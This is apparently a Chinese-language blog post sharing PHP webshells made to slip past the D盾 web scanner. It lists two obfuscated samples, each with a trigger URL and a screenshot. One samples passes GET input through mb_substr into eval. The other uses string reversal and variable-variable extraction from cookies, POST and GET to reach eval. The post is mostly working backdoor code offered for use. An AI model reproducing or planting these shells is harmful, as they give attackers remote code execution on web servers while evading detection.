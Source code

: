 ```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-04-19]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.
D盾v2.1.4.8

> /?1=phpinfo();

```
<?php
$m=$_GET['1'];
$a=mb_substr($m,0,1);
$b=mb_substr($m,1,9999);
eval($a.$b);
?>
```

![20190419.php](https://cijian00.github.io/img/shell_share/20190419.png)



> /?jsha=phpinfo(); (已失效)


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
